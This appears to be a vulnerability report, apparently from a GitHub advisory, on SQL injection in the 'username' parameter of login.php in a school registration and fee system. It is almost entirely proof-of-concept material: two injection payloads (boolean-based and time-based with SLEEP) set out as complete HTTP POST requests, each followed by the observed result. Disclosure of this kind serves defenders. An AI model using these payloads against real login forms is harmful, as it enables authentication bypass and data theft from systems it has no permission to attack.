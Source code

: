 # School Registration and Fee System v1.0 has SQL injection

BUG_Author:saintone98

Vulnerability File: /bilal final/login.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=1'+OR+NOT+1207%3D1206%23&password=2

```
POST /bilal%20final/login.php HTTP/1.1
Host: localhost
Content-Length: 44
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/bilal%20final/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close

username=1'+OR+NOT+1207%3D1206%23&password=2
```

An error occurred in the sql statement

![image](https://github.com/saintone98/picture/blob/main/error.png)

Payload2: username=1'+AND+(SELECT+2+FROM+(SELECT(SLEEP(10)))a)--+b&password=2

```
POST /bilal%20final/login.php HTTP/1.1
Host: localhost
Content-Length: 67
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/bilal%20final/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close

username=1'+AND+(SELECT+2+FROM+(SELECT(SLEEP(10)))a)--+b&password=2
```

The server's response time is 10 seconds

![image](https://github.com/saintone98/picture/blob/main/tenSec.png)

